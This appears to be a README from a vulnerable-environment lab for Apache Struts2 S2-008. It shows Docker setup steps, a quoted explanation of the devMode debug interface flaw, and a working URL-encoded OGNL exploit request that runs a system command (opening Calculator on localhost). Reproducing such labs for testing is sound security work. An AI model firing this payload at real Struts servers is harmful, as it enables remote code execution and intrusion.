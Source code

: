 # S2-008 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.1.0 - 2.3.1

Details: http://struts.apache.org/docs/s2-008.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 involves multiple vulnerabilities. Cookie interceptor configuration problem can cause OGNL expressions execute, but most web containers (such as Tomcat) have character restrictions for cookie names, some key characters cannot be used. Another point is that if the struts2 turn on `devMode` mode, there are multiple debug interfaces that can directly view object information or execute commands. As Kxlzx(author) mentions, this situation is almost impossible in the real environment. So it becomes It's very useless, but I don't think it's absolute. It's possible to hack a struts2 application that turn on `debug` mode on the server as a backdoor.

For example, adding the parameter `?debug=command&expression=<OGNL EXP>` in `devMode` mode, OGNL expression will be executed directly and you can execute the command:

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```
